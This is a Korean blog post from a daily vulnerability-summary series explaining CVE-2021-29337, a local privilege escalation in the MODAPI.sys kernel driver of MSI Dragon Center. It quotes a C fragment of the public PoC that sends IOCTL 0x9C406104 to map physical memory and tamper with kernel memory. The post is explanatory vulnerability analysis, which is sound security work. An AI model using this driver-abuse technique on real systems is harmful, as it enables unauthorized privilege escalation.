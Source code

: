 ```yaml
---
title: "[하루한줄] CVE-2021-29337: MSI Dragon Center의 로컬 권한 상승 취약점"
author: L0ch
tags: [L0ch, msi, cve, lpe, local privilege escalation, windows, kernel driver]
categories: [1day1line]
date: 2021-06-22 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-29337 - Privilege Escalation in MODAPI.sys (MSI Dragon Center)](https://github.com/rjt-gupta/CVE-2021-29337)

## Target

- MSI Dragon Center 2.0.104.0

## Explain

LED 시스템, 시스템 환경 설정, 모바일 앱 원격 제어 등의 기능을 지원하는 MSI의 시스템 모니터링 유틸리티인 Dragon Center에서 발견된 로컬 권한 상승 취약점의 PoC가 공개되었습니다.



취약점은 Dragon Center의 커널 드라이버 `MODAPI.sys`에 존재하며 PoC의 일부 코드는 다음과 같습니다.

```c
//Allocate Input Buffer
LPVOID lpInMemoryArea = VirtualAlloc((LPVOID)0x41000000, 0x100, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
LPVOID lpOutMemoryArea = VirtualAlloc((LPVOID)0x42000000, 0x100, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

//Set Input Buffer
DWORD pPhysicalMemAddr = 0xE0000;
DWORD dwDataSizeToRead = 0x4;
DWORD dwAmountOfDataToRead = 8;

memmove(lpInMemoryArea, &pPhysicalMemAddr, sizeof(DWORD));
memmove((BYTE*)lpInMemoryArea + 0x8, &dwDataSizeToRead, sizeof(DWORD));
memmove((BYTE*)lpInMemoryArea + 0xC, &dwAmountOfDataToRead, sizeof(DWORD));

// Send IOCTL
DWORD dwLastError = DeviceIoControl(hDriver, 0x9C406104, lpInMemoryArea, 0x10, lpOutMemoryArea, 0x40, &dwBytesOut, NULL);
```

`MODAPI.sys`의 METHOD_BUFFERED IOCTL `0x9C406104` 는 물리 메모리를 가상 주소 공간에 매핑하는 `MmMapIoSpace` 루틴을 호출합니다. 이를 악용해 해커가 Input Buffer인 `lpInMemoryArea` 에 권한 상승을 위한 임의의 값을 설정한 뒤 `DeviceIoControl`을 통해 IOCTL 요청을 보내면 Windows의 커널 메모리를 유저모드의 데이터로 임의로 조작 할 수 있으며 이는 로컬 권한 상승으로 이어질 수 있습니다.



